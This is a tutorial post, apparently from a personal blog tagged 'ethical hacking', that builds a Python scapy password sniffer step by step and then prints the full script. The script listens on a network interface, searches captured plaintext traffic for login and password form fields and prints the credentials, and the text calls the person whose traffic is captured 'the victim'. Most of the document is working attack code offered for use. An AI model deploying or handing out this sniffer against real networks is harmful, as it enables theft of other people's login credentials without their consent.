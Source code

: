 ```yaml
---
title: Writing a password sniffer using python
date: 2020-12-19 08:58:58 GMT+2
categories: [Development, Pentesting Tools]
tags: [ethical hacking, python]     # TAG names should always be lowercase
image: /assets/img/posts/passwordsniffer/passwordsniffer.jpg
---
```


## What is password sniffer ?
A password sniffer is a software application that scans and records passwords that are used or broadcasted on a computer or network interface. It listens to all incoming and outgoing network traffic and records any instance of a data packet that contains a password.

## Writing the script

### Step 1: Importing required modules
* scapy: Scapy is a powerful Python-based interactive packet manipulation program and library. It is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, store or read them using pcap files, match requests and replies, and much more.
* urllib (parse): Urllib module is the URL handling module for python. It is used to fetch URLs (Uniform Resource Locators). It uses the urlopen function and is able to fetch URLs using a variety of different protocols. Urllib is a package that collects several modules for working with URLs, such as parse for parsing URLs.
* re: A regular expression (or RE) specifies a set of strings that matches it; the functions in this module let you check if a particular string matches a given regular expression (or if a given regular expression matches a particular string, which comes down to the same thing).

```python
# Python code snippet
from scapy.all import *
from scapy.layers.inet import TCP, IP
from urllib import parse
import re
```

## Step 2: Implementing required functions
### pkt_parser() function
This function filters the sniffed packets to get the packets that might contain the username and password. We search for tha packets that has TCP, Raw, and IP layer. If that packet is what we are looking for, then we store the body (or payload) of that packet and pass it as a parameter to get_login_pass() function that we will implement later. user_pass variable contains the returned value (user and passwd ) of get_login_pass() function; therefore, we check if that variable is not equal to none, then we print the payload itself to know which website the victim use and we print the username and password that the victim entered. If the sniffed packet is not that one we are looking for, then we just pass and let that packet go since it probably does not contain any username or any password.

```python
#Python code snippet
def pkt_parser(packet):
    if packet.haslayer(TCP) and packet.haslayer(Raw) and packet.haslayer(IP):
        body = str(packet[TCP].payload)
        user_pass = get_login_pass(body)
        if user_pass != None:
            print(packet[TCP].payload)
            print(parse.unquote(user_pass[0]))
            print(parse.unquote(user_pass[1]))
    else:
          pass
```

### get_login_pass() function
In this function, we define user and passwd variables with a default value "None" and we define userfields and passfields with a list. Then, we iterate over each list and use regex to compare the data that we found at the payload to our defined regex pattern. If we found matches, then we store the found username and password. And at the end of the function, we return both value the username and password.

```python
#Python code snippet
def get_login_pass(body):

    user = None
    passwd = None

    userfields = ['log', 'login', 'wpname', 'ahd_username', 'unickname', 'nickname', 'user', 'user_name',
                  'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname',
                  'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename',
                  'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username',
                  'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword',
                  'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword',
                  'login_password'
                  'passwort', 'passwrd', 'wppassword', 'upasswd', 'senha', 'contrasena']

    for login in userfields:
        login_re = re.search('(%s=[^&\']+)' % login, body, re.IGNORECASE)
        if login_re:
            user = login_re.group()
    for passfield in passfields:
        pass_re = re.search('(%s=[^&\']+)' % passfield, body, re.IGNORECASE)
        if pass_re:
            passwd = pass_re.group()

    if user and passwd:
        return(user,passwd)
```

## Step 4: The script start point
When we run the script, the code starts from here. We define an interface variable "iface" with value "eth0" which is the interface that we will use to sniff the packets on the network. Then, we use sniff function which is a predefined function in scapy module to start sniffing packets on the network. Also, we handle the KeyboardInterrupt exception, so we can terminate the program from keyboard safely.

```python
#Python snippet code
iface = "eth0"
try:
    sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
    print('Exiting')
    exit(0)
```

## The complete script
After assembling all the steps together, here is our script.

```python
from scapy.all import *
from scapy.layers.inet import TCP, IP
from urllib import parse
import re

iface = "eth0"

def get_login_pass(body):

    user = None
    passwd = None

    userfields = ['log', 'login', 'wpname', 'ahd_username', 'unickname', 'nickname', 'user', 'user_name',
                  'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname',
                  'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename',
                  'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username',
                  'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword',
                  'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword',
                  'login_password'
                  'passwort', 'passwrd', 'wppassword', 'upasswd', 'senha', 'contrasena']

    for login in userfields:
        login_re = re.search('(%s=[^&\']+)' % login, body, re.IGNORECASE)
        if login_re:
            user = login_re.group()
    for passfield in passfields:
        pass_re = re.search('(%s=[^&\']+)' % passfield, body, re.IGNORECASE)
        if pass_re:
            passwd = pass_re.group()

    if user and passwd:
        return(user,passwd)


def pkt_parser(packet):
    if packet.haslayer(TCP) and packet.haslayer(Raw) and packet.haslayer(IP):
        body = str(packet[TCP].payload)
        user_pass = get_login_pass(body)
        if user_pass != None:
            print(packet[TCP].payload)
            print(parse.unquote(user_pass[0]))
            print(parse.unquote(user_pass[1]))
    else:
          pass



try:
    sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
    print('Exiting')
    exit(0)
```

## Script output
And at the end, here is our script output as depicted below.

![script_output](/assets/img/posts/passwordsniffer/script_output.png)
